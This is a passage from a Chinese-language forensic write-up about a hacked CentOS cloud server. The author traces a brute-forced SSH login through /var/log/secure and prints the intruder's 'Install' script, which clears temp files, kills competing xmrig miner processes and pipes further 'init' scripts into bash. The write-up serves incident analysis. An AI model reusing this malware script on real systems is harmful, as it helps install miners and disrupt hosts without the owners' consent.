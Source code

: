 **执行`last`查看近期登录的帐户记录**
发现没有cj登陆记录，应该也被清除了。

**执行`/var/log/secure|grep 'Accepted'`查看成功登录的ip**
```
[root@VM-0-13-centos tmp]# less /var/log/secure|grep 'Accepted'
May 18 13:57:27 VM-0-13-centos sshd[24567]: Accepted password for cj from 42.192.205.184 port 33090 ssh2
```
发现了`42.192.205.184`这个IP在下午`13:57:27`成功登录了这个云，这个时间和up.txt文件创建的时间相同。那就是这个IP破解了我的密码，IP地址在上海。可能也是被木马黑掉的服务器吧。
>国外的服务器延迟高，但是带宽大，国内的带宽小，但是延迟低。传输需要大带宽，破解需要小延迟，所以想想这么配置很合理。


<br>
# 六、脚本执行顺序
## 6.1 /home/cj/.configrc/a/下的脚本

**Install**
```
#!/bin/sh
rm -rf /tmp/.FILE
rm -rf /tmp/.FILE*
rm -rf /dev/shm/.FILE*
rm -rf /dev/shm/.FILE
rm -rf /var/tmp/.FILE
rm -rf /var/tmp/.FILE*
rm -rf /tmp/nu.sh
rm -rf /tmp/nu.*
rm -rf /dev/shm/nu.sh
rm -rf /dev/shm/nu.*
rm -rf /tmp/.F*
rm -rf /tmp/.x*
rm -rf /tmp/tdd.sh

pkill -9 go> .out
pkill -9 run> .out
pkill -9 tsm> .out
kill -9 `ps x|grep run|grep -v grep|awk '{print $1}'`> .out
kill -9 `ps x|grep go|grep -v grep|awk '{print $1}'`> .out
kill -9 `ps x|grep tsm|grep -v grep|awk '{print $1}'`> .out

killall -9 xmrig
killall -9 ld-linux
kill -9 `ps x|grep xmrig|grep -v grep|awk '{print $1}'`
kill -9 `ps x|grep ld-linux|grep -v grep|awk '{print $1}'`
cat init | bash

sleep 10
cd ~
pwd > dir.dir
dir=$(cat dir.dir)
if [ -d "$dir/.bashtemprc2" ]; then
	exit 0
else
	cat init2 | bash
fi
exit 0
```
>执行dota/.rsync/initall，Install做一些清理准备工作后，执行init功能。
